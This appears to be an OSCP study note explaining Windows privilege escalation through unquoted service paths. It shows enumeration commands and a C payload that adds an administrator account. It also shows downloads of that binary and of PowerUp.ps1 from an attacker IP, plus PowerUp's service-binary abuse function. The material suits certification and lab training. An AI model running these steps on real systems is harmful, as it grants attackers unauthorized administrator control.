 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/8-windows-privilege-escalation/7-unquoted-service-paths/"}
---
```


- Works when we have write-permissions to a service's main- or sub-directories but cannot replace files within them.
- Services are started with 'CreateProcess' and the parameter 'IpApplicationName'. If the path that follows that parameter contains one or more spaces and is not enclosed within quotes it may be abused for a privesc.
- Paths are read from left to right, and for every space all preceding words are interpreted as executables, and the rest as arguments. Example:
```
C:\Program Files\My Program\My Service\service.exe
---------------------------------------------------
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```
- Therefore if that happens an executable with one of those name can be placed an used to privesc.
------------

### Unquoted Service Path Service Privesc:
1. Enumerate running services for misconfigured paths (only works in cmd):
```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
2. Check for write access rights in the service's butchered search order swith 'icacls'.
3. Create malicious binary. Example in C which will create a new user:
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
4. Cross-compile it to an 64-bit .exe for Windows:
```bash
x86_64-w64-mingw32-gcc <file>.c -o <file>.exe
```
5. Serve the binary, download it, and move it to the correct directory:
```powershell
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move <pre-path> <post-path>
```
6. Restart the service -- win!
-------------------------

### Automatic Unquoted Service Path Privesc with PowerUp:
1. Serve the PowerUp.ps1 on your kali machine.
2. Download the script:
```powershell
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
```
4. Run the script with bypass:
```
 powershell -ep bypass
 . .\PowerUp.ps1
```
5. Now check for vulerable paths:
```
Get-UnquotedService
```
6. Try to use the built-in AbuseFunction to install a service binary (where name is Service Name listed from above command):
```powershell
Write-ServiceBinary -Name '<servicename>' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```
7. Win!

